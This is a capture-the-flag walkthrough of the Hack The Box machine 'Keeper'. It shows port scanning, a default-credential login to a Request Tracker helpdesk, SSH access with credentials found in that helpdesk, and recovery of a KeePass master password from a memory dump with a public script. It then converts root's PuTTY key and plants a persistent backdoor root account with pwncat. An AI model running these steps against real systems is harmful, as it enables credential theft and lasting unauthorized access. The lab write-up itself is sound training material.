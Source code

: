 we start the machine with the classic port scan:
	
	rustscan -a 10.10.11.227
output:
	
	PORT   STATE SERVICE
	22/tcp open  ssh
	80/tcp open  http
so now that we know the open ports we can do a more accurate scan:
	
	nmap -sC -sV -p22,80 10.10.11.227
output:
	
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
	|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
	80/tcp open  http    nginx 1.18.0 (Ubuntu)
	|_http-server-header: nginx/1.18.0 (Ubuntu)
	|_http-title: Site doesn't have a title (text/html).
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
so far nothing strange so let's enumerate the port 80:
	
![ip and port](./ip.png)
	
the site is telling us to visit this new page:
	
	To raise an IT support ticket, please visit tickets.keeper.htb/rt/
on this domain:
	
	tickets.keeper.htb
so we need to update our /etc/hosts file:
	
	echo '10.10.11.227	keeper.htb	tickets.keeper.htb' >> /etc/hosts
now we can visit the site and this appears:
	
![login page](./login.png)
	
this looks like an actual ticketing service for helpdesk.
so i tried to search it online and found this:
	
	https://bestpractical.com/request-tracker
so it is an actul software, so i searched default credentials or exploits;
i had like with the first guess in fact they are:
	
	username: root
	password: [REDACTED]
so we can now log in.
the site is pretty basic and i didn't find neither exploits or post-auth RCE;
so i searched in the account info for some stored creds or stuff like that and found this:
	
![credentials](./credentials.png)
	
now we can try and log in with the user that we see (i will use pwncat-cs for the SSH connection):
	
	python3 -m pwncat
and then inside pwncat interactive shell:
	
	connect ssh://lnorgaard:[REDACTED]@keeper.htb:22 
in fact we are in as the lnorgaard user!
	
	(remote) lnorgaard@keeper:/home/lnorgaard$
inside the home directory of the user we found a strange .zip file:
	
	-rw-r--r-- 1 root      root       87391651 Sep 23 19:02 RT30000.zip
when we unzip it inside we find:
	
	-rw-r----- 1 lnorgaard lnorgaard 253395188 May 24 12:51 KeePassDumpFull.dmp
	-rw-r----- 1 lnorgaard lnorgaard      3630 May 24 12:51 passcodes.kdbx
i downloaded the .dmp file for passcracking as this article about KeePass password recovery says:
	
	https://github.com/CMEPW/keepass-dump-masterkey
i downloaded the file with scp (i could also use pwncat downlaod feature):
	
	scp lnorgaard@keeper.htb:/home/lnorgaard/KeePassDumpFull.dmp ./KeePassDumpFull.dmp
after the password prompt we can go on and try to crack the KeePass archive with the script inside
the github repo linked above (i only copied and saved the script to an exploit.py file):
	
	python3 exploit.py KeePassDumpFull.dmp
output:
	
	Possible password: ●,dgr●d med fl●de
	Possible password: ●ldgr●d med fl●de
	Possible password: ●`dgr●d med fl●de
	Possible password: ●-dgr●d med fl●de
	Possible password: ●'dgr●d med fl●de
	Possible password: ●]dgr●d med fl●de
	Possible password: ●Adgr●d med fl●de
	Possible password: ●Idgr●d med fl●de
	Possible password: ●:dgr●d med fl●de
	Possible password: ●=dgr●d med fl●de
	Possible password: ●_dgr●d med fl●de
	Possible password: ●cdgr●d med fl●de
	Possible password: ●Mdgr●d med fl●de
at first this ouput seamed meaningless but after some copy paste on google and CHAT-GPT i found out
(the comments on the webserver now makes sense) that
this is a nordic word for a cake or stuff like that; but we need to format it right:
	
	[REDACTED] med fløde
now we can open the .kdbx vault and see what's inside.
to do that we need to render the keepass file with its own programm:
	
	sudo apt install keepass2
now just type on the terminal:
	
	keepass2
and it will prompt the app where we can insert the file and the password we cracked
and we will see this:
	
![keepass app](./keepass.png)
	
now we have the ssh id_rsa of root user that i saved as '_key.root.ppk_';
but it's not like a regular id_rsa key, in fact it is a putty private key, so we need to convert it
to a rsa key in order to log with ssh client.
To do that i found this discussion online:
	
	https://superuser.com/questions/232362/how-to-convert-ppk-key-to-openssh-key-under-linux
in particular this comand is perfect for us! :
	
	puttygen id_rsa.ppk -O private-openssh -o id_rsa
so after installing puttygen with:	
	
	sudo apt install putty-tools
we can now run the command above with our saved key file:
	
	puttygen key.root.ppk -O private-openssh -o id_rsa
we now have a id_rsa file that we can use to log in as root:
	
	chmod 600 id_rsa
and then:
	
	ssh -i id_rsa root@keeper.htb
we are finally root and we can submit the root flag.
	
![root terminal](./root.png)
	
for test sake i runned the pwncat module to install persitence on the machine with just one command:
	
![persistence with pwncat](./persistence.png)
	
so now we can log in with ssh as Disturbante user and enter as root whenever we want:
	
	ssh Disturbante@keeper.htb	#input Disturbante as password
and u will enter as root:
	
	Disturbante@keeper.htb's password: 
	Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)
	
	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage
	Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
	
	Last login: Sat Sep 23 20:00:50 2023 from 10.10.14.238
	root@keeper:~# 


